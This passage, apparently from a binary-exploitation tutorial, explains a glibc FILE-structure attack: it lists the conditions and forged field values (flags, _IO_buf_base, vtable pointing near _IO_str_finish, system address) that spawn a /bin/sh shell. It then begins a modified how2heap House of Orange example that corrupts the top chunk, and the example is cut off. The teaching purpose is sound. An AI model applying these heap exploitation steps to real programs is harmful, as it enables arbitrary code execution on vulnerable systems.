 ```c

```



condition:


1. _IO_buf_base is not empty
2. _flags &amp; _IO_USER_BUF(0x01) is false


Constructed as follows:


```bash

_flags = (binsh_in_libc + 0x10) & ~1

_IO_buf_base = binsh_addr



_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1

vtable = _IO_str_finish - 0x18

fp+0xe8 -> system_addr

```







#### Example


Modified how2heap&#39;s houseoforange code, you can debug it yourself.


```c

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

int winner ( char *ptr);

int main()

{

    char *p1, *p2;

    size_t io_list_all, *top;

    // unsorted bin attack

    p1 = malloc(0x400-16);

    top = (size_t *) ( (char *) p1 + 0x400 - 16);

    top[1] = 0xc01;

    p2 = malloc(0x1000);
```
